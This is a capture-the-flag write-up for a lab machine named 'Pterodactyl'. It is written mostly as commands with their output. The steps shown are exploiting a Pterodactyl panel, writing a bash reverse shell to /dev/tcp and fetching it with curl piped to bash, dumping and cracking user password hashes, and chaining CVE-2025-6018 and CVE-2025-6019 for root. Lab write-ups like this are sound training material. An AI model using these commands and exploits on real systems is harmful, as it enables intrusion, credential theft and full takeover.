

# Pterodactyl

Ok, first as we do every time, let's start with the Nmap scan.

```bash
❯ sudo nmap -Pn 10.129.26.208 -sCV -o scan.txt
[sudo] password for samurai: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-05 09:52 +0200
Stats: 0:00:29 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 96.54% done; ETC: 09:52 (0:00:00 remaining)
Nmap scan report for 10.129.26.208
Host is up (0.24s latency).
Not shown: 971 filtered tcp ports (no-response), 25 filtered tcp ports (admin-prohibited)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 a3:74:1e:a3:ad:02:14:01:00:e6:ab:b4:18:84:16:e0 (ECDSA)
|_  256 65:c8:33:17:7a:d6:52:3d:63:c3:e4:a9:60:64:2d:cc (ED25519)
80/tcp   open   http       nginx 1.21.5
|_http-title: Did not follow redirect to http://pterodactyl.htb/
|_http-server-header: nginx/1.21.5
443/tcp  closed https
8080/tcp closed http-proxy

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.58 seconds
```

So not that much, but let's see what is on the web.



So we have a new sub; when I went for it, it just redirected me to pterodactyl.htb.

Then when I clicked that button CHANGELOGS:


As you can see, there is a panel for this site with version v1.11.10.

So I went to my /etc/hosts to add it and open it.


And also searched for an exploit for this version and found [https://www.exploit-db.com/exploits/52341](https://www.exploit-db.com/exploits/52341).

So let's use this exploit.


```bash
❯ python3 52341.py http://panel.pterodactyl.htb/
http://panel.pterodactyl.htb/ => pterodactyl:PteraPanel@127.0.0.1:3306/panel
```

So we have credentials for the database. Username: **pterodactyl**, Password: **PteraPanel**.

And found an exploit on GitHub which allows you to do RCE: [https://github.com/rippsec/CVE-2025-49132-PHP-PEAR](https://github.com/rippsec/CVE-2025-49132-PHP-PEAR).


This confirms the vulnerability, so let's start abusing it.


So let's get our shell ready.

```bash
❯ nano shell.sh

❯ echo 'bash -i >& /dev/tcp/10.10.17.212/4444 0>&1' > shell.sh
❯ cat shell.sh
bash -i >& /dev/tcp/10.10.17.212/4444 0>&1
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.26.208 - - [05/Apr/2026 12:30:57] "GET /shell.sh HTTP/1.1" 200 -
```

```bash
# Then wait for the shell 
nc -lnvp 4444 
```

```bash
❯ python3 poc.py -H panel.pterodactyl.htb -c "curl http://10.10.17.212:8080/shell.sh | bash"
[CVE-2025-49132] Pterodactyl Panel RCE via PHP PEAR
/ [!] Unexpected error: timed out
```


Ok ok, let's start cooking. As we remember, there was MariaDB on the server and we had credentials to enter it, so...


```bash
wwwrun@pterodactyl:/var/www/pterodactyl/public> /usr/bin/mariadb -h 127.0.0.1 -u pterodactyl -p'PteraPanel' panel
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 663
Server version: 11.8.3-MariaDB MariaDB package

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [panel]> show tables;
+-----------------------+
| Tables_in_panel       |
+-----------------------+
| activity_log_subjects |
| activity_logs         |
| allocations           |
| api_keys              |
| api_logs              |
| audit_logs            |
| backups               |
| database_hosts        |
| databases             |
| egg_mount             |
| egg_variables         |
| eggs                  |
| failed_jobs           |
| jobs                  |
| locations             |
| migrations            |
| mount_node            |
| mount_server          |
| mounts                |
| nests                 |
| nodes                 |
| notifications         |
| password_resets       |
| recovery_tokens       |
| schedules             |
| server_transfers      |
| server_variables      |
| servers               |
| sessions              |
| settings              |
| subusers              |
| tasks                 |
| tasks_log             |
| user_ssh_keys         |
| users                 |
+-----------------------+
35 rows in set (0.001 sec)

MariaDB [panel]> select * from users;
+----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+
| id | external_id | uuid                                 | username     | email                        | name_first | name_last | password                                                     | remember_token                                               | language | root_admin | use_totp | totp_secret | totp_authenticated_at | gravatar | created_at          | updated_at          |
+----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+
|  2 | NULL        | 5e6d956e-7be9-41ec-8016-45e434de8420 | headmonitor  | headmonitor@pterodactyl.htb  | Head       | Monitor   | $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2 | OL0dNy1nehBYdx9gQ5CT3SxDUQtDNrs02VnNesGOObatMGzKvTJAaO0B1zNU | en       |          1 |        0 | NULL        | NULL                  |        1 | 2025-09-16 17:15:41 | 2025-09-16 17:15:41 |
|  3 | NULL        | ac7ba5c2-6fd8-4600-aeb6-f15a3906982b | phileasfogg3 | phileasfogg3@pterodactyl.htb | Phileas    | Fogg      | $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi | 6XGbHcVLLV9fyVwNkqoMHDqTQ2kQlnSvKimHtUDEFvo4SjurzlqoroUgXdn8 | en       |          0 |        0 | NULL        | NULL                  |        1 | 2025-09-16 19:44:19 | 2025-11-07 18:28:50 |
+----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+
2 rows in set (0.001 sec)
```

As you can see, the user “headmonitor” is **root_admin**.

Let's try to crack the password.


But the cracked password was for "phileasfogg3"

```bash
❯ john hashed.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)     
1g 0:00:03:51 0.16% (ETA: 2026-04-07 06:47) 0.004328g/s 120.6p/s 180.7c/s 180.7C/s frank123..barbie3
Use the "--show" option to display all of the cracked passwords reliably
Session aborted

❯ ssh phileasfogg3@pterodactyl.htb
(phileasfogg3@pterodactyl.htb) Password: 
Have a lot of fun...
Last login: Sun Apr 5 16:07:15 2026 from 10.10.17.212
phileasfogg3@pterodactyl:~> ls
bin  user.txt

phileasfogg3@pterodactyl:~> whoami
phileasfogg3
```

After we took access, we had to make some enumeration about the OS.

```bash
cat /etc/os-release
NAME="openSUSE Leap"
VERSION="15.6"
ID="opensuse-leap"
ID_LIKE="suse opensuse"
VERSION_ID="15.6"
PRETTY_NAME="openSUSE Leap 15.6"
ANSI_COLOR="0;32"
CPE_NAME="cpe:/o:opensuse:leap:15.6"
BUG_REPORT_URL="https://bugs.opensuse.org"
HOME_URL="https://www.opensuse.org/"
DOCUMENTATION_URL="https://en.opensuse.org/Portal:Leap"
LOGO="distributor-logo-Leap"

phileasfogg3@pterodactyl:~> 
```

---

Then after searching about vulnerabilities in the OS, we found [https://github.com/MaxKappa/opensuse-leap-privesc-exploit](https://github.com/MaxKappa/opensuse-leap-privesc-exploit).

```bash
phileasfogg3@pterodactyl:~> cd /var

phileasfogg3@pterodactyl:/var> ls -al
total 20
drwxr-xr-x 1 root root 116 Jan  2 09:35 .
drwxr-xr-x 1 root root 236 Jan  2 09:34 ..
-rw-r--r-- 1 root root 208 Jan  2 09:34 .updated
drwxr-xr-x 1 root root 128 Sep 12  2025 adm
lrwxrwxrwx 1 root root  11 Dec  5  2024 agentx -> /run/agentx
drwxr-xr-x 1 root root 110 Sep 21  2025 cache
drwxr-xr-x 1 root root   0 Mar 15  2022 crash
drwxr-xr-x 1 root root 540 Jan  1 09:40 lib
lrwxrwxrwx 1 root root   9 Sep 12  2025 lock -> /run/lock
drwxr-xr-x 1 root root 558 Apr 18 19:35 log
lrwxrwxrwx 1 root root  10 May 27  2024 mail -> spool/mail
drwxr-xr-x 1 root root   0 Mar 15  2022 opt
lrwxrwxrwx 1 root root   4 Sep 12  2025 run -> /run
drwxr-xr-x 1 root root 108 Sep 12  2025 spool
drwxrwxrwt 1 root root 728 Apr 18 19:35 tmp
drwxr-xr-x 1 root root  30 Nov  7 16:59 www

phileasfogg3@pterodactyl:/var> cd mail

phileasfogg3@pterodactyl:/var/mail> ls -al
total 4
drwxrwxrwt 1 root         root  46 Nov  7 18:41 .
drwxr-xr-x 1 root         root 108 Sep 12  2025 ..
-rw-rw---- 1 headmonitor  mail   0 Nov  7 15:54 headmonitor
-rw-rw---- 1 phileasfogg3 mail 960 Dec 29 15:58 phileasfogg3

phileasfogg3@pterodactyl:/var/mail> cat phileasfogg3 
From headmonitor@pterodactyl Fri Nov 07 09:15:00 2025
Delivered-To: phileasfogg3@pterodactyl
Received: by pterodactyl (Postfix, from userid 0)
id 1234567890; Fri, 7 Nov 2025 09:15:00 +0100 (CET)
From: headmonitor headmonitor@pterodactyl
To: All Users all@pterodactyl
Subject: SECURITY NOTICE — Unusual udisksd activity (stay alert)
Message-ID: 202511070915.headmonitor@pterodactyl
Date: Fri, 07 Nov 2025 09:15:00 +0100
MIME-Version: 1.0
Content-Type: text/plain; charset="utf-8"
Content-Transfer-Encoding: 7bit

Attention all users,

Unusual activity has been observed from the udisks daemon (udisksd). No confirmed compromise at this time, but increased vigilance is required.

Do not connect untrusted external media. Review your sessions for suspicious activity. Administrators should review udisks and system logs and apply pending updates.

Report any signs of compromise immediately to headmonitor@pterodactyl.htb

— HeadMonitor
System Administrator
```

As you can see, the admin is talking about something in the udisks.

So we should search for something about this: [https://success.qualys.com/discussions/s/article/000008043](https://success.qualys.com/discussions/s/article/000008043).

It combines two vulnerabilities together: **CVE-2025-6018 + CVE-2025-6019 Exploit Chain**, as it says in the blog.

خلينا نوضح بشكل مختصر: polkit هو النظام المسؤول عن التحكم في صلاحيات العمليات المرتبطة بالـ disks والـ mounts على لينكس. لما المستخدم ينفذ عملية معينة، polkit يصنف الجلسة حسب 3 أنواع:

| المستوى            | الشرح | مثال                  |
|--------------------|-------|-----------------------|
| **allow_active**   | المستخدم جالس فعلياً على الجهاز (console أو GUI) | أعلى صلاحية    |
| **allow_inactive** | مستخدم محلي لكن مش active    | صلاحية وسط      |
| **allow_any**      | أي جلسة—even ريموت (SSH, VNC)    | أقل صلاحية عادة |

```text
CVE-2025-6019 – libblockdev / udisks LPE

Affected Systems: Most Linux distributions with udisks daemon

Description:
Exploitable by “allow_active” users.
Allows mounting malicious images with improper security flags (nosuid, nodev) to gain full root privileges.

Impact: Local attacker can achieve full root access.
```

As you can see, we can chain them to get our root shell ;) 

Now let's get our exploit to put it on the victim system.

```bash
git clone https://github.com/DesertDemons/CVE-2025-6018-6019.git
```

And started a Python server to upload the exploit on the host “victim”.

And in the host:

```bash
curl http://my_ip:port/exploit.sh -o exploit.sh 
```

And let's start setting up the exploit and check for the vulnerabilities.

```bash
phileasfogg3@pterodactyl:~> ./exploit.sh --check

[*] Running full vulnerability check...
[*] Checking dependencies...
[+] All dependencies found
[*] Checking PAM configuration (CVE-2025-6018)...
[+] pam_env.so found in PAM configuration
[+] pam_systemd.so found - escalation vector available
[*] Detected OS: openSUSE Leap 15.6
[+] Target OS is vulnerable (openSUSE/SLES)
[*] Checking udisks2 capability (CVE-2025-6019)...
[+] udisksctl found
[+] Polkit rules allow drive-mount/filesystem-mount
[*] VULNERABILITY STATUS:
[!] CVE-2025-6018: VULNERABLE
[!] CVE-2025-6019: VULNERABLE
[!] EXPLOIT CHAIN: POSSIBLE
```

So it's vulnerable, let's start exploiting it.


```bash
phileasfogg3@pterodactyl:~> ./exploit.sh --exploit
[*] Starting exploit chain...
[*] Step 1: Triggering CVE-2025-6018 (PAM Injection)...
[+] Successfully injected into ~/.pam_environment
[*] Re-logging to activate new session...
[+] New session is ACTIVE (Active=yes)
[*] Step 2: Triggering CVE-2025-6019 (udisks2 Race Condition)...
[*] Creating malicious XFS image...
[*] Attempting race condition mount...
[+] Mount successful!
[*] Escalating to root...
[+] Success! Root shell spawned.

root@pterodactyl:/# whoami
root
root@pterodactyl:/# cat /root/root.txt
```


And we are root ;) 
> what i have learned from this lab is to not give up , it was more mental than technical to me so always dont lose hope in a thing that u love
